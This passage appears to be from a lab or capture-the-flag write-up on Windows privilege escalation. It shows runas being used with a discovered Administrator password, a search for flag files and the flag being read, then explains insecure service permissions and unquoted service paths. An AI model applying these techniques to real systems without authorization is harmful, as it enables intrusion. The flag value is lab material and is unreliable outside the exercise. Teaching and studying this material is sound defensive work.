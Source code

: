 _Attempt to elevate privileges by running the command prompt as the Administrator._

`runas.exe /user:Administrator cmd.exe`:
```
Enter the password for Administrator: ←
Attempting to start cmd.exe as user "PRIV-ESC\Administrator" ... ←
```

**Explanation:** The `runas.exe` command allows the user to run a program as a different user, in this case, as `Administrator`. By using the password discovered earlier, the user can start a command prompt with elevated privileges.

_Verify that you have successfully elevated to the Administrator account._

`whoami`:
```
priv-esc\administrator ←
```

_Search for files containing the word "flag" to locate the target file._

`shell`, `where /r C:\ "*flag*"`:
```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.lnk
C:\Users\Administrator\Desktop\flag.txt ←
```

**Explanation:** The `where` command is used to search the entire system for files containing the word "flag," helping locate the file that contains the target information for the lab.

_Display the contents of the flag file._

`type C:\Users\Administrator\Desktop\flag.txt`:
```
f67c2bcbfcfa30fccb36f72dca22a817 ←
```

### Insecure Service Permissions - Theory

#### Windows Services

Windows services are background processes that run in the Windows operating system, often with elevated privileges.

Services can be configured to start automatically, manually, or be triggered by specific events.

Many critical system services run with high privileges, such as LocalSystem, LocalService, or NetworkService.

#### Identifying Insecure Service Permissions

Insecure service permissions occur when a Windows service has misconfigurations in its access control settings, allowing unprivileged users to modify the service or its associated components.

Common permission misconfigurations include:

  - **Full Control or Write Permissions**: If a service's configuration can be modified by an unprivileged user, this creates a security risk. An attacker could change the service's properties, such as its executable path, to execute arbitrary code with elevated privileges.
  - **Unquoted Service Paths**: If a service's executable path contains spaces and is not properly enclosed in quotes, an attacker can place a malicious executable in a specific location along the path, causing it to be executed when the service starts.
